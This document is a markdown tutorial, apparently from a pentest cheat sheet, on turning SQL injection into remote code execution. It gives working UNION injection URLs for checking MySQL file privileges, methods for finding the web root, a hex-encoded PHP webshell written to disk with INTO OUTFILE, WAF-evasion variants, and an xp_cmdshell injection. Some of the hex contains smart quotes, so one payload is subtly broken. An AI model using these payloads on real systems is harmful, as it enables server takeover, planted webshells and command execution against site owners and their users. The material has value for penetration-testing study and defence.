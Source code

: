 # SQL Privilege Escalation

## Identifying the write user's permission
If the database user has write permission, it allows an attacker to upload arbitrary files in the server.  

Let's suppose that the website has 12 columns and the given UNION Based SQL query shows that the vulnerable column is 4:  
```http://domain.com/index.php?id=1' Union Select 1,2,3,4,5,6,7,8,9,10,11,12-- -```

Payload used for Privilege Check via I_S.PRIVILEGES:  
```(SELECT+GROUP_CONCAT(GRANTEE,0x202d3e20,IS_GRANTABLE,0x3c62723e)+FROM+INFORMATION_SCHEMA.USER_PRIVILEGES)```

Payload used for Privilege Check via MySQL System Table:  
```(SELECT+GROUP_CONCAT(user,0x202d3e20,file_priv,0x3c62723e)+FROM+mysql.user)```

Apply one of the queries into the 4th column:  
```http://domain.com/index.php?id=1' Union Select 1,2,3,(SELECT+GROUP_CONCAT(GRANTEE,0x202d3e20,IS_GRANTABLE,0x3c62723e)+FROM+INFORMATION_SCHEMA.USER_PRIVILEGES),5,6,7,8,9,10,11,12-- -```

Look into the results, if 'root'@'localhost' is YES, then we can perform Privilage Escalation (perform RCE). Else, if NO is shown we can't perform RCE since we don't have permission to write over the server.

## Escalating privileges

Since we have permission to write, we can create our own PHP Webshell, but to do this we need to know the absolute path of INDEX.

### Finding absolute path

1. The most common way to find a path, is by searching the temporary path that SQL has, to do that we simply use the following query:
```sql
@@slave_load_tmpdir
```

Look at the output, you should look after a directory, something like this:
**/var/mysqltmp**  

This means that we can upload files to **/mysqltmp**

2. Another way (when website likes to Error) is to perform a 'Fatal Error' or a Syntax Error and the absolute path will be shown bolded like the image below.
Note: different websites displayes different output and format.

![fatal_error_syntax](https://i.imgur.com/rAPKrh1.png)

The bold part is the absolute path: **E:\xampp\htdocs** which is converted to **E:/xampp/htdocs**

### Uploading webshell

Below is the PHP script converted to 0xHEX format:  
```0x201c3c3f7068702073797374656d28245f4745545b2018636d6420195d293b203f3e201d```

The converted PHP payload:  
```“<?php system($_GET[‘cmd’]); ?>”```

The given query is the final payload to upload our simple webshell into webshell.php

```http://domain.com/index.php?id=1' Union Select 1,2,3,0x201c3c3f7068702073797374656d28245f4745545b2018636d6420195d293b203f3e201d,5,6,7,8,9,10,11,12 into outfile 'E:/xampp/htdocs/webshell.php'-- -```

or like in the first case, you can upload it to **/mysqltmp** (you can also try **/var/mysqltmp** in case something goes wrong):  
```http://domain.com/index.php?id=1' Union Select 1,2,3,0x201c3c3f7068702073797374656d28245f4745545b2018636d6420195d293b203f3e201d,5,6,7,8,9,10,11,12 into outfile '/mysqltmp/webshell.php'-- -```

If WAF comes into the play and makes it unable for you to upload webshell, try using the following concat() functions to load the PHP script:
```sql
unhex(hex(/*!50000group_concat*/(/*!500000x201c3c3f7068702073797374656d28245f4745545b2018636d6420195d293b203f3e201d*/)))  
%0AcOnCat(0x201c3c3f7068702073797374656d28245f4745545b2018636d6420195d293b203f3e201d)  
/**//*!12345cOnCat*/(0x201c3c3f7068702073797374656d28245f4745545b2018636d6420195d293b203f3e201d)  
unhex(hex(/*!12345concat*/(0x201c3c3f7068702073797374656d28245f4745545b2018636d6420195d293b203f3e201d)))  
```

Since the webshell is upload, you can go execute OS Commands:

```http://domain.com/webshell.php?cmd=whoami```

## OS Command Execution

Via **xp_cmdshell**:  
```something'); exec xp_cmdshell "ping 10.10.x.x"--``` 
